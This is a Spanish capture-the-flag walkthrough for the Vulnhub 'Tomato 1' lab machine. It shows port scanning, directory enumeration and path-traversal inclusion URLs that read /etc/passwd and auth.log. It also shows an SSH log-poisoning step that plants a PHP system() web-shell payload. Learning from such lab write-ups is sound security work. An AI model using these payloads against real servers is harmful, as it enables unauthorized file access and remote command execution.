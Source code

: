 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=300&height=80&lines=TOMATO_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/tomato-1,557/

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![1](https://user-images.githubusercontent.com/75953873/174927688-71985557-4e9d-4790-acac-a8b1da611f48.png)

IP host: `192.168.1.10`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.10
```
![2](https://user-images.githubusercontent.com/75953873/174929092-202e91f9-f6d3-428b-a8f9-a952095f67f8.png)

Puertos abiertos: [21,80,2211,8888]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,80,2211,8888 -A 192.168.1.10
```
![3](https://user-images.githubusercontent.com/75953873/174929490-44875da3-9b11-4e39-ba9d-0d7be8d85aac.png)

Servidor corriendo: **HTTP Apache**

O.S: Linux (**Ubuntu**)

URL del servidor: `http://192.168.1.10`

![4](https://user-images.githubusercontent.com/75953873/174928906-0bf0a1e9-d580-4d8f-ae94-0c0bbb3a73b6.png)

En el puerto `8888` se encuentra corriendo el servidor Nginx (`http:192.168.1.10:8888`).

![5](https://user-images.githubusercontent.com/75953873/174929899-11ad2340-d883-4fff-8eb2-d68a7dd8b67d.png)

- *Paso 4:* Enumerar archivos y directorios con Dirb. 
```
dirb http://192.168.1.10 /usr/share/dirb/wordlists/common.txt
```
![6](https://user-images.githubusercontent.com/75953873/174931398-0e9f0007-7245-408a-b4d1-d89c6f3e30ae.png)

Directorio: `http://192.168.1.10/antibot_image/`

Al inspeccionar el código del archivo `info.php`, indica en un comentario que es posible subir una imagen con el método GET.
```
curl http://192.168.1.10/antibot_image/antibots/info.php
```
![7](https://user-images.githubusercontent.com/75953873/174932206-434978d3-3417-4eb4-bd3f-cbce7b934c87.png)

- *Paso 5:* Búsqueda de vulnerabilidad LFI (Inclusión de archivos locales).

Herramienta Tester: https://github.com/kostas-pa/LFITester

LFI Payloads: https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt

```
python3 LFITester.py -L payloads.txt
```
![9](https://user-images.githubusercontent.com/75953873/174938168-ec6ee35f-6eaf-4d05-937a-ada4e7db7e84.png)

URL: 
```
Opción 1) http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../etc/passwd
Opción 2) http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log
```

**/etc/passwd**

![8_](https://user-images.githubusercontent.com/75953873/174938823-970ad267-3267-4bbe-9f97-d256d4f5b2e2.png)

**/var/log/auth.log**

![10](https://user-images.githubusercontent.com/75953873/174939217-162ae75c-1412-48dd-98ab-142100bf6e95.png)

- *Paso 6:* Envenenar registros de Apache a través de SSH creando una backdoor por el puerto 2211.
```
ssh '<?php system($_GET['cmd']); ?>'@192.168.1.10 -p 2211
```
![11](https://user-images.githubusercontent.com/75953873/175163279-0d24f94a-7f18-41a2-a627-580aa8e1b0b2.png)

- *Paso 7:* Configurar proxy y capturar solicitud GET con BurpSuite.

Configuración de Firefox **>** Configuración de redes:

HTTP Proxy: `127.0.0.1`
Port: `8080`

![12](https://user-images.githubusercontent.com/75953873/175163339-db1853d5-b77c-47cb-86b5-0fa8e6e5fb28.png)

